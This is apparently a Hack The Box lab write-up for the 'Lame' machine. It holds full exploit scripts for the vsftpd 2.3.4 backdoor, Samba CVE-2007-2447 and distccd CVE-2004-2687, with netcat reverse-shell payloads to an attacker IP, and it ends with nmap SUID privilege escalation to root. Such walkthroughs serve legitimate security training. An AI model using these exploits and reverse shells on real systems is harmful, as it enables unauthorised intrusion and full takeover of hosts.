

# <a href='https://www.hackthebox.eu/home/machines/profile/1' target="blank">Lame</a>


## FTP Service 21

### Anonymous access

```
┌──(Hades㉿10.10.14.4)-[2.1:15.9]~
└─$ ftp 10.10.10.3
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 .
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 ..
226 Directory send OK.
ftp> pwd
257 "/"
ftp> quit
221 Goodbye.
```

### Searchsploit

``` bash
┌──(Hades㉿10.10.14.4)-[2.7:16.6]~
└─$ searchsploit vsftpd 2.3.4
----------------------------------------------- ---------------------------------
 Exploit Title                                 |  Path
----------------------------------------------- ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution (Met | unix/remote/17491.rb
----------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Base on `searchsploit`, we know the vsftpd 2.3.4 service had a critical vul allowing attacker to execute command in the server.


### <a href='https://github.com/ahervias77/vsftpd-2.3.4-exploit' target="blank">Backdoor Command Execution</a>

=== "Execute commands"

	Execute payload

	```
	python3 vsftpd-2.3.4-exploit.py 10.10.10.3 21 whoami
	```

	Check open port: 6200

	```
	nmap -p 6200 10.10.10.3 -Pn
	```

	

=== "vsftpd-2.3.4-exploit.py"

	``` python
	#!/usr/bin/python3
	import socket
	import sys
	import time


	def exploit(ip, port, command):
	    """ Triggers vsftpd 2.3.4 backdoor and prints supplied command's output """

	    try:
	        print('[*] Attempting to trigger backdoor...')
	        ftp_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	        ftp_socket.connect((ip, port))

	        # Attempt to login to trigger backdoor
	        ftp_socket.send(b'USER letmein:)\n')
	        ftp_socket.send(b'PASS please\n')
	        time.sleep(2)
	        ftp_socket.close()
	        print('[+] Triggered backdoor')

	    except Exception:
	        print('[!] Failed to trigger backdoor on %s' % ip)

	    try:
	        print('[*] Attempting to connect to backdoor...')
	        backdoor_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	        backdoor_socket.connect((ip, 6200))
	        print('[+] Connected to backdoor on %s:6200' % ip)
	        command = str.encode(command + '\n')
	        backdoor_socket.send(command)
	        response = backdoor_socket.recv(1024).decode('utf-8')
	        print('[+] Response:\n', response, sep='')
	        backdoor_socket.close()

	    except Exception:
	        print('[!] Failed to connect to backdoor on %s:6200' % ip)


	if __name__ == '__main__':

	    if len(sys.argv) < 4:
	        print('Usage: ./vsftpd_234_exploit.py <IP address> <port> <command>')
	        print('Example: ./vsftpd_234_exploit.py 192.168.1.10 21 whoami')

	    else:
	        exploit(sys.argv[1], int(sys.argv[2]), sys.argv[3])
	```

Because port 6200 is not open, then we don't have a backdoor here.

## CVE-2007-2447

### <a href='https://wiki.jacobshodd.com/writeups/hack-the-box/lame#exploitation' target="blank">Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution</a>

=== "Execute payload file to get root"

	Create a listener in Kali machine.

	``` bash
	sudo nc -nvlp 4444
	```

	Get reverse shell

	```bash
	smbmap -u '/=`nc -e /bin/bash 10.10.14.4 4444`' -H 10.10.10.3
	```

	

=== "samba_rce_CVE-2007-2447.py"

	``` python
	#!/usr/bin/python

	from smb.SMBConnection import SMBConnection
	from smb import smb_structs
	smb_structs.SUPPORT_SMB2 = False
	import sys
	if len(sys.argv) < 2:
	    print "\nUsage: " + sys.argv[0] + " <HOST>\n"
	    sys.exit()


	username = "/=`nc -e /bin/bash 10.10.14.4 4444`"
	password = ""
	conn = SMBConnection(username, password, "HACKTHEBOX" , "HTB", use_ntlm_v2 = False)
	assert conn.connect(sys.argv[1], 445)
	```

## CVE-2004-2687

### <a href='https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855' target="blank">DistCC Daemon - Command Execution (Python)</a>

=== "DistCC RCE"

	Execute payload with ping command

	```
	┌──(Hades㉿10.10.14.4)-[1.5:16.3]~
	└─$ python distccd_rce_CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "ping -c 2 10.10.14.4"
	[OK] Connected to remote service

	--- BEGIN BUFFER ---

	PING 10.10.14.4 (10.10.14.4) 56(84) bytes of data.
	64 bytes from 10.10.14.4: icmp_seq=1 ttl=63 time=235 ms
	64 bytes from 10.10.14.4: icmp_seq=2 ttl=63 time=234 ms

	--- 10.10.14.4 ping statistics ---
	2 packets transmitted, 2 received, 0% packet loss, time 1005ms
	rtt min/avg/max/mdev = 234.636/235.127/235.618/0.491 ms


	--- END BUFFER ---

	[OK] Done.
	```

	Create a listener in Kali machine.

	``` bash
	sudo nc -nvlp 4444
	```

	Get reverse shell

	```bash
	python distccd_rce_CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.64 4444 -e /bin/sh"
	```

	

=== "distccd_rce_CVE-2004-2687.py"

	```
	#!/usr/bin/python

	# -*- coding: utf-8 -*-

	'''
		distccd v1 RCE (CVE-2004-2687)
		
		This exploit is ported from a public Metasploit exploit code :
			https://www.exploit-db.com/exploits/9915

		The goal of that script is to avoid using Metasploit and to do it manually. (OSCP style)

		I'm aware a Nmap script exists but for some reason I could not get it to work.

		Lame Box (HTB):
			local>nc -lvp 1403

			local>./disccd_exploit.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.64 1403 -e /bin/sh"	

			Enjoy your shell

		Jean-Pierre LESUEUR
		@DarkCoderSc
	'''

	import socket
	import string
	import random
	import argparse

	'''
		Generate a random alpha num string (Evade some signature base detection?)
	'''
	def rand_text_alphanumeric(len):
		str = ""
		for i in range(len):
			str += random.choice(string.ascii_letters + string.digits)

		return str

	'''
		Read STDERR / STDOUT returned by remote service.
	'''
	def read_std(s):
		s.recv(4) # Ignore

		len = int(s.recv(8), 16) # Get output length

		if len != 0:
			return s.recv(len)

	'''
		Trigger Exploit
	'''
	def exploit(command, host, port):
		args = ["sh", "-c", command, "#", "-c", "main.c", "-o", "main.o"]

		payload = "DIST00000001" + "ARGC%.8x" % len(args)

		for arg in args:
			payload += "ARGV%.8x%s" % (len(arg), arg)

		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

		socket.setdefaulttimeout(5)
		s.settimeout(5)

		if s.connect_ex((host, port)) == 0:
			print("[\033[32mOK\033[39m] Connected to remote service")
			try:
				s.send(payload)

				dtag = "DOTI0000000A" + rand_text_alphanumeric(10)

				s.send(dtag)			

				s.recv(24)

				print("\n--- BEGIN BUFFER ---\n")
				buff = read_std(s) # STDERR

				if buff:
					print(buff)

				buff = read_std(s) # STDOUT
				if buff:
					print(buff)

				print("\n--- END BUFFER ---\n")

				print("[\033[32mOK\033[39m] Done.")
			except socket.timeout:
				print("[\033[31mKO\033[39m] Socket Timeout")
			except socket.error:
				print("[\033[31mKO\033[39m] Socket Error")
			except Exception:
				print("[\033[31mKO\033[39m] Exception Raised")
			finally:
				s.close()		
		else:
			print("[\033[31mKO\033[39m] Failed to connect to %s on port %d" % (host, port))


	parser = argparse.ArgumentParser(description='DistCC Daemon - Command Execution (Metasploit)')

	parser.add_argument('-t', action="store", dest="host", required=True, help="Target IP/HOST")
	parser.add_argument('-p', action="store", type=int, dest="port", default=3632, help="DistCCd listening port")
	parser.add_argument('-c', action="store", dest="command", default="id", help="Command to run on target system")

	try:
		argv = parser.parse_args()

		exploit(argv.command, argv.host, argv.port)
	except IOError:
		parse.error
	```

## Privilege Escalation

### Nmap SUID to root

Upgrade shell

```
/usr/bin/python -c "import pty; pty.spawn('/bin/sh')"
```
	
At LinEnum, I saw nmap had SUID:

```
find / -perm -u=s -type f 2>/dev/null

[+] Possibly interesting SUID files:
	-rwsr-xr-- 1 root dhcp 2960 Apr  2  2008 /lib/dhcp3-client/call-dhclient-script
	-rwsr-xr-x 1 root root 780676 Apr  8  2008 /usr/bin/nmap
```

<a href='https://gtfobins.github.io/gtfobins/nmap/#shell' target="blank">GTFOBins search</a>

Check nmap version

```
daemon@lame:/root$ /usr/bin/nmap -V
/usr/bin/nmap -V

Nmap version 4.53 ( http://insecure.org )
```

Execute nmap to get root

```
daemon@lame:/root$ /usr/bin/nmap --interactive
/usr/bin/nmap --interactive

Starting Nmap V. 4.53 ( http://insecure.org )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
sh-3.2# whoami
whoami
root
sh-3.2#
```